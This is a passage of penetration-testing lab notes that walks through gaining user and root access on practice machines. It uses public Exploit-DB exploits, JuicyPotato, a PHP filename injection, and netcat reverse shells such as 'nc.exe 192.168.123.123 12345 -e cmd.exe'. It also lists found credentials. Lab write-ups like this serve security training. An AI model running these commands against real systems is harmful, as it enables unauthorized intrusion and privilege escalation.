 Second Way
1. https://www.exploit-db.com/exploits/42966
2. python 42966.py -u http://192.168.XX.42:8080 -p pwn
3. nc -lvnp 1337
4. User shell!
Privilege Escalation to Root
1. Machine is using a Windows 10 Pro and the SeImpersonatePrivilege is enabled.
2. Download JuicyPotato - https://github.com/ohpe/juicy-potato
3. Upload a netcat binary to target machine and run the command:
echo C:\Users\Rob\Desktop\nc.exe 192.168.123.123 12345 -e cmd.exe > rev.bat
1. Setup netcat listener in your local machine
2. Go to https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro and
copy a CLSID
1. Run JuicyPotato.exe -l 12345 -p C:\Users\Rob\Desktop\rev.bat -t * -c
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
1. Root shell!

```bash
October (.43)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s October
Similar Machine (Root)
Exploit to Getting User
1. Brute force directory and you should find /october
2. Brute force /directory folder and you should find config
3. Credential fyodor:picard
4. Upload a reverse shell (PHP) and should be located at /october/backend/cms/media
5. User shell!
Privilege Escalation to Root
1. Run Linux Enumeration and you should find SUID named NfsEn
2. Check for its version because it is vuln to https://github.com/patrickfreed/nfsen-exploit
3. Root shell!

```bash
Textian (.44)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s Frolic
Similar Machine (Root)HackTheBox’s Haircut
Exploit to Getting User
1. Port 8787 is an http service
2. Check robots.txt and you should get a hidden directory
3. Credential admin:admin
4. Follow https://www.exploit-db.com/exploits/42003 and upload a CSV file
5. Capture the POST request using Burp and edit the file name to <?php echo exec(‘nc -lvnp
9000 > shell.php 2>&1’); ?>.php
1. In your local machine, transfer the shell.php to target machine by running nc -nv 192.168.XX.53
9000 < shell.php
1. Start a netcat listener to your machine and browse
http://192.168.XX.53:8787/2315e8131432505230f581cf689e783a/shell.php
1. User shell!
Privilege Escalation to Root
1st Way - Linux Kernel
1. Exploit is https://www.exploit-db.com/exploits/45010
2. gcc -o 45010 45010.c
3. Send the binary to target machine and run
4. Root Shell!
2nd Way - Service
1. Run a Linux Enumeration Tool
2. You will see a setuid binary called screen-4.5.0 which is vulnerable to Local Privilege
Escalation - https://www.exploit-db.com/exploits/41154
1. Setup a python server in your local machine and download the exploit to target machine